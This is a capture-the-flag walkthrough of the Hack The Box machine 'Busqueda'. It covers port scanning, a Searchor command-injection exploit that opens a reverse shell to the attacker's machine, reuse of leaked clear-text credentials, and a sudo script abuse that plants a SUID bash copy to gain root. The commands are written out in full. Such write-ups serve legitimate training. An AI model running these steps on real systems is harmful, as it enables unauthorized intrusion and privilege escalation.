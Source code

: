 # [Busqueda](https://app.hackthebox.com/machines/Busqueda)


```bash
nmap -p- --min-rate 10000 10.10.11.208 -Pn
```

![Alt text](img/image.png)

I see that ports (22,80) are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.208
```

![Alt text](img/image-1.png)


While browsing http, it redirects into 'searcher.htb', let's add this domain into '**/etc/hosts**' file.


From bottom of application, I know tech stack of application.

![Alt text](img/image-2.png)


I searched publicly known exploit, found Command Injection vulnerability.

I find already [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

```bash
bash exploit.sh searcher.htb 10.10.16.6 1337
```

![Alt text](img/image-3.png)

I got reverse shell from port (1337).

![Alt text](img/image-4.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-5.png)


user.txt

![Alt text](img/image-6.png)


I found a clear-text credentials in folder '/var/www/app/.git' and file called 'config'.

![Alt text](img/image-7.png)


cody:jh1usoih2bkjaspwe92

I also see subdomain 'gitea.searcher.htb' and I add this into my '/etc/hosts' file.

After this I login into this page via grabbed credentials previously.

![Alt text](img/image-8.png)


There is also password reusing, so it is also password of `svc` user on machine.

That's why we can look at privileges of `svc` user via `sudo -l` command.

![Alt text](img/image-9.png)


But I cannot read this file due to permission problems.


This script is just run commands instead of normal bash.
```bash
sudo python3 /opt/scripts/system-checkup.py docker-ps
```

![Alt text](img/image-10.png)


Let's look at `gitea` via `docker inspect` command.
```bash
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
```

![Alt text](img/image-11.png)


I found clear-text password 'yuiu1hoiu4i5ho1uh' for `gitea`.


Let's login into `gitea` via this credentials.


administrator: yuiu1hoiu4i5ho1uh

![Alt text](img/image-12.png)



I found really content of popular `system-checkup.py` script.

![Alt text](img/image-13.png)


I will abuse this `full-checkup` condition of script via createing malicious `.sh` script which adds `SUID` binary for `svc` user.

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks' > full-checkup.sh
```

After coding this bash script, let's give privilege and run via `sudo` command.

```bash
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
```

![Alt text](img/image-14.png)

Let's look at privilege of this malicious created `bash` named as `dr4ks`. 

![Alt text](img/image-15.png)


We can run this malicious bash shell (dr4ks).
```bash
/tmp/dr4ks -p
```

root.txt

![Alt text](img/image-16.png)